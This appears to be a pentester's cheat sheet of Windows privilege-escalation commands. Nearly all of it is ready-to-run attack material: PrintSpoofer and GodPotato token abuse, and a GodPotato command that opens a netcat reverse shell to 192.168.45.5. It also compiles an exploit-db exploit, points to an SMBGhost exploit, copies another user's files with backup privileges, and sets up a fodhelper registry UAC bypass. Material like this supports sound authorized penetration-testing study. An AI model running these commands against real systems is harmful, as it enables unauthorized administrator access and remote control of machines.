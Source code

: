 ## Using Exploits

```powershell

whoami /priv

- If the privilege SeImpersonatePrivilege assigned. 
- we can attempt to elevate our privileges by using PrintSpoofer

# Using the PrintSpoofer64.exe tool to get an interactive PowerShell session
.\PrintSpoofer64.exe -i -c powershell.exe

searchsploit "Privilege Escalation" | uniq | grep -v metasploit | grep -i "windows "

https://www.exploit-db.com/exploits/40564
$ i686-w64-mingw32-gcc 40564.c  -o 40564.exe -lws2_32

# smbGhost Github: https://github.com/danigargu/CVE-2020-0796 cve-2020-0796-local.exe
GodPotato-NET4.exe -cmd "nc.exe 192.168.45.5 443 -e cmd.exe"

# Abusing SeBackupPrivilege

robocopy /b C:\Users\enterpriseadmin\Desktop\ .\stole

User Account Control (UAC) Bypass

sigcheck.exe -a -m C:\Windows\System32\fodhelper.exe
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f

```

## Create .zip

```powershell

Compress-Archive in.txt out.zip

```


## icacls

```powershell

# Non Writable
C:\>icacls "Enterprise Software"
icacls "Enterprise Software"
Enterprise Software BUILTIN\Administrators:(OI)(CI)(F)
                    NT AUTHORITY\SYSTEM:(OI)(CI)(F)
                    BUILTIN\Users:(OI)(CI)(RX)
# Writable
C:\>icacls BackupMonitor
icacls BackupMonitor
BackupMonitor BUILTIN\Administrators:(I)(OI)(CI)(F)
              NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              NT AUTHORITY\Authenticated Users:(I)(M)
              NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)

```
